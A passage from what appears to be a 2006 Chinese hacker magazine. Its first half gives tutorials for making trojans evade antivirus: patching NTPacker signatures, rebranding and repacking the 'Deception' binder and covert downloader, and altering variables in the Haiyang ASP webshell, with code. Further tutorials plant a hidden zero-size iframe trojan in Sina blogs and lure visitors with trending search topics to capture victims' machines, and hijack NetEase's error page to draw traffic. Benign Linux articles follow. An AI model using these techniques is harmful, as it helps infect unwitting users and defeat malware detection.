知道了修改方法之后，大家以后都可以用这个方法修改用 NTPacker 加壳后的木马，但是每次用 OD 打开修改很麻烦，所以制作一个用 NTPacker 加壳后的免杀补丁文件。打开注册机编写器，然后选择“生成”菜单下的“制作文件补丁”，如图5及图6所示。


原始的文件选择用 NTPacker 加壳后的 exe 文件，已破解文件选择免杀后的 NTPacker 加壳文件。这样一个木马一次做完免杀之后，以后就不需要重复修改，直接打上免杀的补丁即可，如图7所示。

好了，以上就是修改的全部过程，其实也就是修改 NTPacker 的壳特征代码，没什么技术含量，让高手见笑了。但是通过这样的修改，卡巴已经不认识以前的 NTPacker 的壳，达到了变异的目的。其它的壳修改方法类似，今后大家都能打造属于自己的变异壳。（本文所用工具：NTPacker v2.1、OC、OLLYDBG、CCL 特征码定位器已收入光盘）

**编辑点评：** 一个奇妙的想法，一个奇特的方法，造就了小马的免杀，且方法简单易学，很适合免杀的初学者哦！


# 文件免杀之软件 DIY


蜀国布衣

- **从本文你可以学到：**
- 了解软件汉化的过程
- 如何对软件进行版权改造

经常从各大黑客网站下载的用户，一定会常常发现标称为“XX 专版”的软件。其实，这种软件除了少量是软件作者专门打造的以外，其他很多都是由黑客爱好者进行制作的。这些软件除了对软件的版权进行更改以外，还经过了很多 DIY 处理，比如更换图标、简体汉化、重新加壳等。在经过了这一系列的 DIY 处理后，不仅原有的软件显得更加个性化，而且常常已经有了免杀的效果。如果你不信的话，下面我们就拿一款国外的捆绑器来测试一下。

## 一、界面汉化

今天我们进行免杀演示的这款程序名叫 Deception，它是一款功能不错的捆绑工具和远程秘密下载工具的集合体。程序支持将任何文件捆绑到可执行文件上，并且可以在指定的时间内进行远程下载，支持在系统的 Temp、System、Windows 目录下运行，包括正常运行以及秘密运行两种方式，相对于其它捆绑工具和远程秘密下载者来说，有众多自己的特色。因为该程序是一款英文程序，所以我们要做的第一步就是对程序主体进行汉化操作。

首先我们通过 PEiD 对程序进行查壳，发现并没有进行加壳处理，这样也免去了脱壳的步骤，如图1所示。

接下来要使用的工具是 Restorator，它是一个非常好的汉化工具，对 DELPHI 和 C 程序的支持尤为突出。除了一般的编辑操作外，还可以采用拖放操作来完成资源的导入/导出，及批量修改资源的语系。

首先用 Restorator 载入程序主体，在资源树下找到 RCData 资源项。从软件中我们可以看到 Deception 可用多个窗口，要汉化的主要内容就在该资源项中。可能有读者要问，这些选项中有很多的代码，我们该选择哪一些进行汉化呢？其实很简单，我们只需要首先将程序复制一份，接着运行复制出来的程序，然后在窗口中查找需要汉化的关键字即可。比如程序的标题栏有“Deception 4.0 [RaGe]”这样的关键字，接着我们就在 RCData 资源项中查找这个关键字。如果用户觉得不好找的话，可以点击 Restorator 窗口“资源”菜单中的“查找”命令，从而辅助用户来进行查找。当然，不是所有查找的关键字都可以汉化，首先查找的关键字需要在 RCData 这个项中，其次查找的关键字需要在 Caption 这个项目前面，只有满足了这样两个条件的关键字才能进行汉化。这里需要特别声明的是：在汉化关键字的时候，首先需要选中这个关键字，然后点击工具栏中的“编辑模式”命令后，才能进行汉化操作，比如我们将关键字“Deception 4.0 [RaGe]”修改为“诡计 黑手专版”，如图2所示。


## 二、版权更改

我们都知道，正规文件的“属性”窗口中基本都包括“常规”、“版本”、“兼容性”等几个标签。尤其是“版本”这个标签，其中包括了和该程序相关的很多版权信息，我们就可以轻易地查看到该文件的“文件名称”、“文件描述”等信息，还可以查看到这个程序的产品名称、公司名称、网站地址等一系列的信息内容。其实，Deception 这个程序在“版本”标签页同样也包括了自己的版权信息，但是正是由于这些信息的存在，杀毒软件往往会将其中的……## 黑客免杀班

某些内容作为病毒的特征码，所以我们需要对其进行修改。

在 Restorator 的资源树下找到 Deception 的“版本”资源项，接着选中其中唯一的一个项目，然后在右侧的“资源窗口组”就可以看到程序本身的版本信息。从中我们可以看到，版本信息中公司名称、文件版本、内部名称、产品名称等几项内容有原来的信息，这里就将这些内容进行更改，同时将没有填写的内容尽量编写。首先将“公司名称”改为黑客手册的网址 www.nohack.cn，接着在“语言/本地”选项中设置为“中文（中国）”，然后在“代码页”选项中设置为“936（简体中文 GBK）”，“注释”选项就填写为“一款功能不错的捆绑工具和远程秘密下载工具”，接着按照刚才的操作进行设置，如图 3 所示。


最后选择 Deception 这一项的主要内容，点击“文件”菜单下的“另存为”命令，将个性化处理过的 Deception 重新进行保存。查看保存的程序文件，属性中的“版本”内容得到了全面的更改，如图 4 所示。

## 三、加壳压缩

前面的操作完成后，最后再对程序进行一番加壳处理。今天使用的加壳工具是 Private exe Protector，是一款全新的加壳工具。运行 Private exe Protector，点击菜单栏中的“普通”选项，接着在出现的“应用程序”列表中设置需要加壳保护的程序路径，再在下面的“设置”选项中将“动态保护”勾选上，最后点击工具栏中的“开始保护”按钮即可，如图 5 所示。


在经过上面一系列处理后，一款英文的黑客程序不但被改造成非常个性化的中文版，而且还在 DIY 的过程中起到了免杀的效果，实在是一举多得。

> （本文所用工具 Deception、Restorator、Private exe Protector 及 DIY 的程序已收入光盘）

> **编辑点评：** 很普通的方法完成了程序的 DIY 改造，更达到了免杀的效果，不过一般小马都加过壳，必须脱壳后方可进行 DIY，若无法完整脱壳，那本文的方法将完全无用武之地。

# 轻轻松松监视网络

你是否对 KDE 自带的网络监视功能感到不满呢？你是否厌烦了 Shell 下的流量工具呢？其实开源的环境已经为我们准备了好多优秀的软件，今天就带大家来认识一下 KTrafficAnalyzer——网络流量监视工具。

## 一、什么是 KTrafficAnalyzer

KTrafficAnalyzer 是一款旨在图形化即时提供网络信息的软件。它和 DU-Meter 工具类似。它提供了网络上行、下行总量的数据展示。

作者说，未来还会加入更多的功能，软件还有很多可提升的空间（具体内容可以参看作者的 TODO 文件——软件包中有提供）。

## 二、安装

- 1. 下载（软件光盘中有提供）：

```text
http://www.kde-apps.org/content/download.php?content=22134&id=1&PHPSESSID=b2cfb3d605376d9c326bbca775e22ed1
```

- 2. 安装

请先阅读压缩包内的 INSTALL 文件，确保所需软件已经被安装。接着执行以下命令：

```text
./configure --prefix=/usr
make
make install
```


- 3. 使用

在菜单中找到软件便可以执行，由于功能简单，在此就不作详细描述了。通过软件我们可以查看当前的网络流量（图 1），还可以将每天的信息作为日志保存下来（图 2）。

> 【文中所涉及的软件，光盘中有提供。软件如下：KTrafficAnalyzer-0.3.5-1.tar.bz2】

> **编辑点评：** 图形化的软件缺少命令软件那样的灵活性，所以在你使用图形化软件时可能总会想着：“要是这个软件的功能再全一点该多好！”而命令行下的软件却是以“精”取胜的。因为它们可以灵活地组合在一起使用，而只要它们自身的功能达到某一极致，就是非常优秀的软件了。


- 从本文你可以学到：
- 1. 了解杀毒软件的杀毒原理
- 2. 学习使用 lake2 文本特征码定位器定位特征码
- 3. 利用功能相同的字符串连接符号“+”替换“&”

这几天在学习 ASP 木马的免杀，小有心得，于是写出来与大家共享。我要来免杀的是经常用的海阳顶端网 ASP 木马 2006 版，杀毒软件是卡巴斯基 6 和瑞星 2006，还要用到一个辅助工具就是 lake2 的文本特征码定位器。主要用的方法就是替换变量。

免杀海阳顶端网 ASP 木马 2006 版不太容易，其附带了一个组合器，一会儿要用到。对于这种大马，杀软很可能把特征码定义到版权一类的文字里，那就先把那些东西能改的都改了。比如，下面的代码：

```vb
Sub showTitle(str)
    echo "<title>" & str & " - 海阳顶端网ASP木马2006 -- By Marcos & LCX</title>" & vbNewLine
    echo "<meta http-equiv='Content-Type' content='text/html; charset=gb2312' />" & vbNewLine
    echo "<|" & vbNewLine
    echo "—夷目的怪—" & vbNewLine
    echo "网友在线：忧郁编程：枫林老黑、冰狐浪子、斑原、小狼、wangyong" & vbNewLine
    echo "©zy allen lcx Marcos Kevin1986 nyth对海阳顶端网asp木马所..." & vbNewLine
    echo "我的一切努力!" & vbNewLine
    echo "本版本：" & vbNewLine
    echo "程序编写：Marcos" & vbNewLine
    echo "联系方式：QQ26696782" & vbNewLine
    echo "发布时间：2005-02-28" & vbNewLine
    echo "出品人：Allen, lcx, Marcos" & vbNewLine
    echo "官方发布：WWW.HDID.NET(2) WWW.HAIYANGTOP.NET(1)" & vbNewLine
    echo "------" & vbNewLine
    echo "-->" & vbNewLine
    PageOther()
End Sub
```

修改为：

```vb
Sub showTitle(str)
    echo "<title>" & str & " - 海阳ASP木马2006 -- By Marcos LCX</title>" & vbNewLine
    echo "<meta http-equiv='Content-Type' content='text/html; charset=gb2312' />" & vbNewLine
    echo "<|" & vbNewLine
    echo "免杀 BY 夷目的怪" & vbNewLine
    echo "-->" & vbNewLine
    PageOther()
End Sub
```


还有别的，能改的都改了。反正这些东西都影响不到木马的实际功能。

我们先来过卡巴：用文本特征码定位器简单地定一下位，如图 1 所示。


看了报告后知道有多处特征码，其中头上那 4 行并排的就是特征码，这个很简单，我们将第一行剪贴到第四行，将第二行剪贴到第三行，那么这里的特征码就简单地修改了。然后挑一个变量来替换。这里选中了 theAct，将它替换成 theeAct 就可以了。再杀一下，OK，大名鼎鼎的卡巴被我们给过了。

瑞星是比较难过的，特征码多，这里就要用到前面说的 2006 版里的组合器了。我们先来一部分一部分地生成，然后做免杀，最后综合到原来的大马里。先用 2006 带的组合器分各个功能生成了 13 个文件，第一个功能生成为 1.ASP，第二个功能生成为 2.ASP，以此类推，如图 2 所示。

用瑞星查杀后 6 和 10 被杀了，也就是“WScript.Shell 程序运行器 cmd.asp”和“微软数据库查看/操作器”。打开生成 WScript.Shell 程序运行器 6.asp 文件后做免杀。将变量 cmdPath 替换为 cmddPath 后过了瑞星。然后生成微软数据库查看/操作器的文件后做免杀。用 lake2 的文本特征码定位后，怀疑特征码是：

```vb
rs("hotdownloads").AppendChunk(ChrB(Asc("<")) & ChrB(Asc("%")) & ChrB(Asc("@")) & ChrB(Asc("x")) & ChrB(Asc("m")) & ChrB(Asc("l")) & ChrB(Asc("@")) & ChrB(Asc("t")) & ChrB(Asc("e")) & ChrB(Asc("m")) & ChrB(Asc("p")) & ChrB(Asc("l")) & ChrB(Asc("a")) & ChrB(Asc("t")) & ChrB(Asc("e")) & ChrB(Asc("s")) & ChrB(Asc("t")) & ChrB(Asc("y")) & ChrB(Asc("l")) & ChrB(Asc("e")) & ChrB(Asc("=")) & ChrB(Asc("clientPasswd")) & ChrB(Asc(">")) & ChrB(Asc("%")) & ChrB(Asc("/")) & ChrB(Asc(">")))
rs.Update
```

这个可伤脑筋了，通过学习网上的 ASP 教程，知道在 ASP 中“&”和“+”的功能是相同的，都是用于连接字符串，于是将一个“&”替换为“+”后，这部分也过了瑞星。这样每个功能都是免杀的，再用组合器把所有的功能都选上，生成一个新的 2006.asp。最后再用瑞星试一下，已经免杀了。

好了，这就是我替换变量免杀 ASP 木马的过程。

（本文所用工具、海阳顶端网 ASP 木马 2006 版、lake2 文本特征码定位器已收入光盘）

## 编辑点评：

本文的作者抓住了杀毒软件利用特征码进行查杀的原理，对 ASP 木马进行了简单的变量替换，达到了免杀的效果，更是运用了“+”替换“&”，这一点可谓是本文的亮点，为大家提供了免杀的新思路。

# 社会工程学


# 又：新浪 Blog 也挂马

- 从本文你可以学到：
- 1. 如何在 blog 中挂马
- 2. 怎样让你的博客提高人气

现在的 Blog 真是非常的火，几乎人人都有，我也不例外。我用的是新浪的博客，速度快而且功能不错，不过我却发现新浪的博客上可以挂马，而且非常隐蔽。这下我等小菜又可以找到好多肉鸡了，哈哈。

这个博客的帮助里面有一个“模板特效”，里面有许多装扮博客的案例，点击它我们可以看到还有很多。其中里面有一个“怎样在博客里添加滚动新闻”，它的代码为：

```html
<center><IFRAME src=http://sports.sina.com.cn/frame/full/index.htm frameBorder=0 width=157 scrolling=no height=40></IFRAME></center>
```

我解释一下：

格式：`<iframe src="url" frameborder=x width=y scrolling=[option] height=z></iframe>`

`<iframe></iframe>`：嵌式网页，简单说就是“画中画”；

`src`：文件的路径，既可是 HTML 文件，也可以是文本、ASP 等；

`width、height`：“画中画”区域的宽与高；

`scrolling`：当 SRC 指定的 HTML 文件在指定的区域显示不完整时的滚动选项。如果设为 NO，则不出现滚动条；如为 Auto，则自动出现滚动条；如为 Yes，则显示；

`FrameBorder`：区域边框的宽度。为了让“画中画”与邻近的内容相融合，常设置为 0。

于是乎，我们就完全可以利用这个在博客上挂马了！把其中的“url”换成自己的网页地址，然后把“width”“height”的值设为 0 就行了！

最终效果如图 1。

仔细看，中间只有一点白的区域，很隐蔽。关于如何把这个东西加在博客上我就不介绍了，大家看看新浪博客的帮助，里面说得很清楚了。

网页木马我们是挂上了，可是没有人访问也不行啊，下面我就给大家支一招，让你的博客在短时间内人气大增！

我们先打开百度，如图 2。

打开“搜索风云榜”，里面是当日搜索的热门话题，我们看下现在的热门是什么，如图 3。

哈哈，我就选“吴启华”了，点击后面的“评论”，我们就来到“百度贴吧”。下面我们就要充分利用各大搜索引擎来搜索“吴启华”，然后把搜索到的东西在你的博客上发布，再到贴吧上发表一个有诱惑力的标题，内容就是你博客的地址，如图 4。

我挂了一会儿就有主机上线了，如图 5。

最后教给大家一点技巧，如果当时热门的是人物，那你就找他的简历；如果是一部小说或电影，那你就找这个电影的下载地址、剧照等；要是新闻事件的话，那你就找最新的进展。哈哈，这一招也算是社会工程学了吧！

如果刚好你用的是新浪的博客，你大可以在自己的博客上挂马。你可以自己再去申请一个，用上面介绍的方法提高“人气”。

最后祝大家都能成为养鸡专业户。


| 排名 | 关键词 | 今日搜索 | 今日排名 | 昨日排名 | 排名上升 | 相关链接 |
|---|---|---:|---:|---:|---:|---|
| 1 | 光棍节搞笑短信 | 2023 | 123 | 1001 | 878 | 评论 / 新闻 |
| 2 | 吴启华薄码被遗忘词 | 1382 | 216 | 1001 | 785 | 评论 / 新闻 |
| 3 | 神泣官网 | 1137 | 264 | 1001 | 737 | 评论 / 新闻 |
| 4 | 吴启华 | 1081 | 289 | 1001 | 712 | 评论 / 新闻 |
| 5 | 空运 | 1028 | 313 | 1001 | 688 | 评论 / 新闻 |


> 编辑点评：
>
> 又是一篇在门户上挂马的文章，这次作者玩得比较狠，让别人入侵了他的 blog 为他提高了访问量，还要让人家沦为肉鸡。在挂马的代码部分，作者为我们讲解了每个标签的作用，让小菜们知其然更知其所以然，在挂马的时候知道自己该怎么写代码。喂？还不去看看新浪把这个 bug 补上没？囧

插图


# 社会工程学之网易博客漏洞访问量

前不久在网易申请了一个特殊的博客，怎么特殊呢？先给大家看张图，如图 1。发现什么了么？呵呵，访问量是不是很吓人！所以我说是一个特殊的博客！大家不要以为我使用了什么刷访问量的工具，这可都是别人实实在在的访问记录！不信可以看这张图，如图 2。


看到了吧！都是来自别人的链接，有 3 万多页，这可是工具刷不出来的！

其实这件事要从一篇在网上看到的文章说起。上次在网上看到一篇名为《网易博客的逻辑漏洞——教你制作隐身博客》的文章，内容是说：由于网易博客的访问地址是 blog.163.com/用户名，只要注册一个比较特殊的用户名，比如“123456.html”（网易允许用户注册带“.”的用户名），这样地址就变成了“blog.163.com/123456.do”，提交后服务器会把“123456.do”当成根目录下的一个文件，但文件又是不存在的，会转跳到首页，自然不能访问，如此就达到了隐身的目的。

然后我就试着注册了一个特殊的用户名“xinyu.do”，但访问的时候却可以访问这个博客，再看地址栏里的地址变成了 blog.163.com/xinyu.do/，加了一个“/”，这样就等于把“xinyu.do”当成了根目录下的一个文件夹，访问的是“xinyu.do”里的文件，看来所谓的漏洞补上了——访问“xxx.do”这样的页面会自动加上“/”。

既然“do”不行，那我就换成“html”试试，于是测试了一个“xinyu.html”的用户名，访问“blog.163.com/xinyu.html”直接转跳到了提示出错的页面“error.do”。哈哈，访问不到了！我又试着访问“123456.html”“456789.html”，都会提示出错而跳到 error.do 这个页面。看来“error.do”是默认的出错提示页面，只要出错就会返回这个页面。

等等，刚才不是说“xxx.do”这样的地址会在后面加上一个“/”吗？对，确实会在后面加上一个“/”，但是要是没有“error.do”这个用户的话，就是加上一个“/”还是找不到用户，还是会提示出错的！这么说来，“error.do”这个用户还没被注册。为了验证我的推断，便试着去注册“error.do”。结果和我猜想的一样，“error.do”被我顺利注册到了。

这样我的博客访问地址就和提示出错的页面一样了：“blog.163.com/error.do”。只要有用户访问出错，或操作博客有错误，就会转跳到我的博客上来。就这样，我的博客访问量不到一天的时间达到了 60 万人次（期间还被网易的工作人员删了 6 万）。不过现在漏洞已经补上了，大家再访问“blog.163.com/error.do”的时候显示的还是提示出错的页面。像这样小刷一下访问量还是可以的，但是即使再出错，一天也不会有近 60 万人出错访问吧？后来在访问来源那里我找到了答案。大家可以看图 3、图 4。


第一个访问地址是“Yahoo”的搜索引擎，第二个是网易的像册。像这样的地址有很多，这里不列举了。回访第一个地址显示如图 5。


可以看到下面是博客的出错地址，现在漏洞补了，不然访问的就是我的博客。再看上面那个图的来源是“网易部落”，访问的时候还是出现博客的出错地址。但这是为什么呢？访问网易部落出错为什么跳到博客来？这是因为用户提供的图片或文章的地址都是经过防盗链程序处理的，如果发布的是自己博客上的图片或文章，那么其实是个错误的地址！最后访问的还是我的博客。再加上一些用户的错误操作，访问量突破 60 万是不在话下的！

> **编辑点评：**
>
> 很有意思的一篇文章，作者很善于发现。网易近来似乎漏洞很多，前段时间刚被爆出跨站的漏洞，现在博客又出了些小问题，还好没有造成太大的损失。不过要是网易修补此漏洞之前，有人发现了博客的跨站漏洞，然后配合这个漏洞，那还不是大把的肉鸡啊！所以有些看似鸡肋的漏洞，一旦有了引发其威力的另一半，它同样会释放巨大的能量！

# Linux

又到年末，望着自己走过的一年，是遗憾多还是成就多呢？是不是还有很多目标没有实现呢？时间不等人，就像这个市场一样，你不发展总有人在发展，总有人会超越你。

GG本期 Linux 带大家盘点主流 Linux 发行版本在 2006 年的成果，还没有开始用 Linux 的小黑们也可以乘着这个机会挑选一下适合自己的发行版本。

# 排行榜第一位 Ubuntu

已经连续几年占据桌面 Linux 的首把交椅的 Ubuntu，在 2006 年先后发行了 6.06 LTS（Long Time Support）、6.10 Edgy Eft。其中 6.06 LTS 是一款长达三年的支持版本，用户可以获得三年的软件支持，但同时也是以稳定为首位的版本，所以你可能在 6.06 中无法通过 apt 获得最新的软件。而 6.10 则是包含了许多新特性的系统，比如：使用了 Upstart 替换了传统的 init，使用了最新的 Gnome 2.16、Firefox 2.0、Gaim 2.0 beta……对于桌面用户来说升级到最新版本可以获得更棒的体验。

06 年初，Ubuntu 创始人 Mark Shuttleworth 也来到了中国，开始了北京、上海、台北和香港之行，并且和中国开源公司进行了座谈。

Ubuntu 的成功在于强大的社区支持。如今 Ubuntu 的用户社区是 Linux 发行版本社区中比较成功的了。有了强大的社区支持，众多新手不用担心入门的问题了，无数的高手会在网络上解答你的问题，报告最新的 bug，介绍流行的软件。

这也是 lala 个人推荐的发行版本！

# 排行榜第二位 openSUSE

openSUSE 项目是 Novell 公司资助的社区计划。为在方方面面促进 Linux 的普及应用，该计划提供了对 openSUSE 这份完整 Linux 发行的免费、简便的获取访问。openSUSE 项目有三个主要目标：让 openSUSE 成为任何人都能最容易获得且最广泛使用的 Linux 发行；利用开源软件的联合作用使 openSUSE 成为世界上可用性最强的 Linux 发行及新手和资深 Linux 用户们的桌面环境；显著地简化并开放其开发及打包过程，以使 openSUSE 成为 Linux 开发人员及软件提供商所选择的平台。

有了老牌公司 Novell 的支持，再加上 SUSE 的 Open 精神，到了 06 年 openSUSE 发布了 10.1 版本，目前 10.2 也已经出了测试版本。就 lala 个人看来，Ubuntu 与 openSUSE 代表了 deb 体系与 rpm 体系。（确实，软件管理方式的不同会影响很多使用者。）两个都是各自体系中的佼佼者，而具体谁更好，恐怕要看用户的个人喜好了。

# 排行榜第三位 Fedora

借由 Red Hat 的影响力，Fedora 项目的火热程度也是可以想象的。在国内论坛上 Fedora 总是被讨论最多的发行版本。而且 Fedora 项目也是一个基于社区的项目，除了以往 Red Hat 的精英外，还更多地吸收社区的力量。比较以前的 Red Hat Linux 9 而言，Fedora 更加开放。

06 年 Fedora 先后发行了 Fedora Core 5 与 Fedora Core 6，虽然每次升级获得的更新都比预期的要少，但这些毫不会减少大家对它的期望。默认的软件仓库内的软件数量，Fedora 并没有前面两个多。不过有第三方提供对 Fedora 的支持。

国内暂时没有专属 Fedora 的社区。国外社区：http://forums.fedoraforum.org/。你可以从社区获得最新的信息、How-to、FAQ 等等。对于入门 Linux 的新手，Fedora 也是不错的选择，由于在国内的使用者较多，你应该可以获得比较多的帮助。

# 排行榜第四位 Mepis

Mepis 在 06 年共发布了两个版本，3.4-3、6.0，这是一个年轻的发行版本，到现在已经 3 岁了。虽然年轻，但并不影响它的蔓延速度，特别受到国外用户的青睐。由于是基于 Debian 定制的系统，所以经常拿来与 Kubuntu 比较。基于 586 处理器架构的软件包，会让你感觉运行速度快于其他 386 的系统。

不过中国的用户恐怕不太适应，因为它中文支持实在是差了一点。

# 排行榜第五位 Mandriva

Mandriva 一直是商业化桌面 Linux 的典范作品。2006 年 Mandriva 发布了 2007 版。同样它也分为商业版和免费版。两个版本的区别是：软件包的数量与社区的支持。

就 lala 个人看来，Mandriva 受欢迎的程度不如从前了。虽然 Mandriva 在易用性上优于 Fedora，但是它的商业性导致了它不可能有 Fedora 这么多的用户。另外尴尬也是 Mandriva 的一个问题，最近的几个版本 Mandriva 都没有发布过 1CD 的安装盘。


# 企鹅 lala

桌面市场中 Linux 的地位越来越高，于是众多高手也奉献出自己的时间为大家每周应用中铲平道路。本期窗外请来了 linuxtoy.org 的站长做现场采访秀，不想知道高手有什么特别之处？赶紧翻阅吧。

微软一边推动着 Vista 系统，一边和 Novell 用新闻把自己装得熠熠发光。但 Vista 足以为豪的 Aero 其实早已被 XGL 全面击败，什么？你还不知道什么是 XGL？太慢了吧，赶快来看看本期《窗外》吧！


# 风声新闻

# 微软 Novell 联手

上周四，二家公司公布了技术和法律合作关系，用户能够更好地整合二家公司的技术，无需担心会因此而惹上官司。微软—Novell 合作成为了许多媒体报道的热点：长期的宿敌将在专有软件和开放源代码软件之间架起一座桥梁。

尽管这一次合作对于二家公司和整个软件产业都具有重要的意义，但一些业界人士也对此表示了怀疑。微软和 Novell 产品之间改进的互操作性能更好地满足越来越多的同时使用微软和开放源代码软件的客户的需求。但一些人对微软为什么要与 Novell 合作，并签订专利协议实现技术目标提出了怀疑。

Alfresco 负责业务开发的副总裁、前 Novell 官员马特表示，他对微软的诚意持怀疑态度，认为微软企图通过支持 Novell，达到让 Novell 和 Red Hat 同时被削弱的目的。他说：Red Hat 在 Linux 市场上有绝对优势，对微软的竞争威胁较远。与 Novell 的合作容易使人们想起微软在 2004 年与 Sun 达成的合作协议。

在 Novell 与微软公布合作关系数小时后，Red Hat 在其网站上发表了一份声明，声称这不是 Novell 的胜利，而是 Linux 的胜利。Red Hat 还否认了与微软达成类似合作关系的可能性。

Red Hat 在其声明中表示，微软与 Novell 的合作意味着 Linux 的胜利，开放源代码模式能够提供更好的软件和更高的价值。开放的标准能够实现互操作性，它不要求二家公司达成协议。

> lala：商业行为的背后总应有利益的驱使，不然就不是商人做的事情了。微软的这一举动显然不是针对桌面市场的，而是针对服务器市场的。如果人们在使用 Novell 公司的产品时可以获得更好的与 Windows 程序兼容的环境，是否会让更多人抛弃 Red Hat 呢？
>
> 当然，两个看似矛盾的公司想结合到一起的确有难度，协议就是一个。但金钱总会处理好很多事情！

## 直面 新锐势力 Linuxtoy


当 lala 发现 linuxtoy.org 的时候，第一次感觉到个人 Blog 可以有如此大的力量。lala 一口气便读完了所有的文章，当时便非常佩服 Toy 站长。今天有幸请到了 Toy 来与我们聊一聊。

latteye：你是学什么专业的？现在做的是哪方面的工作？

toy：在大学我学的是汉语言文学教育专业，现在在一所中学教书。

latteye：如果 Linux 是你的兴趣的话，有没有考虑过将兴趣和工作统一起来么？

toy：有，自己也在做一些尝试。

latteye：哦？可以透露一点么？什么方面？如果涉及商业机密就算了，呵呵。

toy：比如，通过在 Linux 中来完成一些教学方面的应用。

latteye：看来你的学生用不上 MS Word 了，教育从娃娃抓起，呵呵～你是什么时候开始接触、学习 Linux 的呢？

toy：接触 Linux 比较早，大约是 2001 年左右，但真正完全转换到 Linux 平台，是在 2005 年初。

latteye：是什么原因促使你完全转换到 Linux 平台的呢？你个人最喜欢的发行版本是哪种？

toy：Linux 平台让人感觉更为鲜活，更加自由，可以随自己所愿摆弄。而且其中的应用不少，担心一些额外的费用和版权。我最喜欢的是 Ubuntu，但是对于 Gentoo 也非常希望有时间能够亲自尝试。

latteye：据说 Gentoo 定制性很高呢，我也没用过，编译应该会很花时间。除了 Linux 应用，IT 方面还有没有什么技术特长？或者未来有兴趣学习的？

toy：嗯，Gentoo 就是如此。以前曾经有很长一段时间在做软件本地化。在未来，我的兴趣不会离开 Linux，随着了解的深入，可能会学习语言，掌握一些编程方面的技术。

latteye：你的英文一定很好吧，看你经常从国外的网站上获取信息。参加过哪些软件的本地化（翻译）工作呢？

toy：其实，我的英文算不上好，也就一般吧。由于国外的网站信息更新比较快速而及时，所以经常关注它们。以前和一些网络朋友合作过，做一些专业的软件的本地化工作。在这方面，个人也曾制作过一些小软件的简体中文化，如 Smarty Uninstaller、Xstarter、FeedBuster 等。

latteye：当初是如何想到做 linuxtoy.org 网站的？什么目的呢？

toy：一方面，感觉国内鲜有介绍 Linux 下特色应用的平台，所以自己打算筹办一个。另一方面，平时接触、使用到一些感觉不错的应用也想分享出去。总结起来，就是分享与交流。通过分享和交流，也对 Linux 下的应用起到一定的推广和宣传作用。

latteye：建站至今遇到过什么困难么？

toy：建站后基本上没遇到什么特别的困难，有很多热心朋友的帮助和支持，所以感觉还算顺利。

latteye：有想过将网站扩大、商业化么？

toy：有想过扩大的问题，但还不明确。至于商业化，目前还没有想到。

latteye：个人有没有常拜过什么？又是什么让你一直坚持做 Linuxtoy？只是兴趣么？

toy：其实，我一直基于这样的理念，搭建一个能够聚集 Linux 爱好者的平台，彼此能够相互真诚而友好地交流。个人对于一些在 Linux 中作出过巨大贡献的人物，还是蛮敬佩的。

latteye：这个平台恐怕在网站模式上有很多创新才行呢。

toy：嗯，我同意你的看法。

latteye：你对开源的态度、想法是如何的呢？

toy：对于开源，我觉得这是一种很好的模式，可以吸纳用户的注意力，并最终投身其中。

latteye：呵呵，总是有人乐于付出的，也会有人记住曾经付出的人。对于 Linux 新手，有没有什么可以建议的呢？

toy：我也是从一个新手过来的，而且在很多方面也仍然是一个新手。我的体会是要敢于尝试，并通过自己的努力去解决问题，这样会积累大量的经验。

latteye：呵呵！多看看 linuxtoy 会帮助我们积累经验的。最后，简短地介绍一下 linuxtoy 吧。

toy：好的。LinuxTOY 是一个专注于分享 Linux 中的特色应用软件及使用技巧的网站，当然，除此之外，我们也会关注 Linux 中漂亮的主题皮肤、实用的脚本，以及其他一些热门的资讯。

## 挑战 Vista—Beryl


## 一、什么是 Beryl

要了解什么是 Beryl，就要先了解一下 XGL、Compiz。它们之间有一小段不可不提的历史。顺便我们也会提及一下 Aiglx，虽然它和前面两者没有必然的联系，但是在功能和目的上有类似之处。

### 1. XGL

XGL 是一个建立在 OpenGL 上的 X 环境，目前依然处于开发阶段。由于是建立在 OpenGL 上的，所以 XGL 可以实现很多功能：加倍窗口显示分辨率，应用程序可以用特定的分辨率渲染窗口，而与桌面的分辨率不同；快速、简单的屏幕旋转、翻转、摇动、放大；高级字体渲染，包括使用材质和分段程序的即时轮廓字体渲染；模拟硬件层面，历史悠久的工作站图形功能可以用材质混合实现；全屏颜色处理，包括伽玛纠正、对比增强、模糊、加亮等等。

当然，XGL 只是提供了这个环境，并不负责具体实现。具体实现就要靠 Compiz 了。

### 2. Compiz

Compiz 带来多种视觉效果，使得 Linux 桌面变得更方便、功能更强大、更新颖、更容易满足用户的特殊需求。Compiz 使用 OpenGL 进行渲染，集窗口管理器与混合管理器于一身；窗口管理器处理屏幕上的应用程序和对话框，而混合管理器则使窗口和图形混合，产生混合图像。Compiz 同时具有两者的功能，产生惊人的效果。

具体地说，Compiz 就是实现特效的软件，通过 Compiz 我们可以实现多种梦幻般的视觉效果，当然也可以获得多方面的桌面应用。比如：透明窗体，带预览的切换程序，快速平铺桌面程序（类似苹果），旋转的立体桌面，动态的显示桌面，鼠标划过的水波纹效果，神灯一样的菜单弹出……

Linux 环境下享受这样的视觉效果早已有 1 年左右的时间，比起打着视觉招牌却又不断跳票的 Vista，Compiz 一定在稳定、效果、资源方面都有优势！

### 3. Beryl

Beryl 是一个我们预料不到的产物，在 Compiz 今年年初出现之后，就吸引了众多的爱好者加入开发，并且逐渐形成团体，组建了一个分支团队：compiz-quinnstorm。但是随着时间的推移，compiz-quinnstorm 与官方 Compiz 的分歧越来越大！compiz-quinnstorm 不但有了自己的窗口管理程序 cgwd，还有了自己的后台管理程序 csm。而到了分歧无法合拢、官方 Compiz 也无法全部接受分支所提出的建议与补丁时，一个彻底的分支就出现了——Beryl！

完全的分裂有益于用户对软件包的选择，也有益于发行版本对软件包的绑定。我们不用再担心 Compiz 是官方的，所以它可能更加稳定而放弃分支 compiz-quinnstorm；如今 compiz-quinnstorm 已经是一个独立的项目 Beryl！Beryl 也承诺会努力和 Compiz 保持同步。

### 4. Aiglx

Aiglx 是一个为标准桌面添加 GL 加速功能的项目。它和 XGL 不同，它并不是彻底的新品，而是改进后的旧品。当然我们不能通过这个判断哪个好，哪个不好。而且它们在应用层面上的目的是一样的。

今天主要是介绍 XGL+Beryl，所以 Aiglx 就不多介绍了。

## 二、安装

本文将介绍 XGL+Beryl 在两个主流系统中的安装过程：Fedora、Ubuntu。如今的安装非常简单，不用大家繁琐地编译。

配合 yum 和 apt，你只需要复制我的代码就可以快速地体验梦幻的视觉效果了。赶快打开你的 Shell 吧！

### 1. Fedora

- 1. 添加 XGL 的软件仓库。

```bash
su
rpm -Uhv http://fedoraxgl.tuxfamily.org/repository/fedora-xgl-repository-1.0-3.noarch.rpm
```

